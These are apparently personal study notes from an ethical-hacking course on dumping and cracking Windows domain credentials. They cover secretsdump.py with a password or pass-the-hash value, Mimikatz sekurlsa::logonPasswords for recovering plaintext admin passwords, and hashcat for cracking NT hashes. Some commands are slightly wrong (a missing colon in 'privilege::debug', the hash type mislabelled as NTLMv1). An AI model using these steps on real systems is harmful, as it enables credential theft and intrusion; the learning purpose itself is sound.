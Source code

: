 ```yaml
---
tags:
  - PEH
---
```

## Dumping hashes
Whenever you take over an account, make sure to **dump its hashes, collect those hashes, try to break them and/or use them or the password after breaking them in a [[Pass Attacks]] again and again**
### secretsdump.py
#### Using password
```bash
secretsdump.py <domain-name>.local/<user>:"<password>"@<ip-address>
```
#### Using SAM hash
```bash
secretsdump.py administrator:@<ip-address> -hashes <LM:NT-hash>
```
### Mimikatz
1. Download `Mimikatz` on your Linux machine, extract the x64 and [[File transfer|transfer]] it to the victim's machine
2. Run `mimikatz`with admin privileges from the CMD
3. Check available modules
```PowerShell
privilege::
```
4. Set the mode to debug so you can run different attacks
```PowerShell
privilege:debug
```
5. List all available providers credentials
```PowerShell
# After running the command below, if there is a shared file from the administrator over the network that required the administrator credentials to be entered, the command below will SHOW THE ADMINISTRATOR PASSWORD IN PLAINTEXT!!! 
sekurlsa::logonPasswords
```
## Cracking hashes
Cracking hashes is the same as mentioned in [[Password cracking]], but this type the hash is of type NTLMv1 and its form is: LM:NT. The part that we care about is the NT part:
```bash
hashcat -m 1000 ntlm.txt <passwords-list>
# ntlm.txt is the text file that includes NTLMv1 hashes
```